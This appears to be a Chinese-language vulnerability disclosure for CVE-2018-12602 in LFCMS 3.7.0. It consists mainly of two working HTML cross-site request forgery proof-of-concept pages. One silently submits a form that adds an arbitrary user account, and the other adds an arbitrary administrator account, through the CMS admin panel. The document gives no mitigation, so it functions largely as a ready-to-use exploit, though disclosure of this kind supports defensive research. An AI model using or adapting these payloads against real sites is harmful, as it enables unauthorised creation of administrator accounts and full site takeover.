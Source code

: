 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|LFCMS 3.7.0存在CSRF漏洞可添加任意用户账户或任意管理员账户|2018-06-20|Bay0net|[http://www.lfdycms.com/](http://www.lfdycms.com/) | [http://www.lfdycms.com/](http://www.lfdycms.com/) |3.7.0| [CVE-2018-12602](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12602)|  

#### 漏洞概述  

> 攻击者可通过构造 CSRF 请求，来新增任意用户。   

### POC实现代码如下：  

> 通过CSRF增加任意用户 的exp代码如下：  

``` html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.211.55.17/lfdycms3.7.0/admin.php?s=/Users/add.html" method="POST">
      <input type="hidden" name="username" value="test222" />
      <input type="hidden" name="email" value="test2@qq.com" />
      <input type="hidden" name="password" value="test222" />
      <input type="hidden" name="repassword" value="test222" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
> 通过CSRF增加管理员用户 的exp代码如下：  

``` html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.211.55.17/lfdycms3.7.0/admin.php?s=/Member/add.html" method="POST">
      <input type="hidden" name="username" value="admin2" />
      <input type="hidden" name="password" value="admin2" />
      <input type="hidden" name="repassword" value="admin2" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

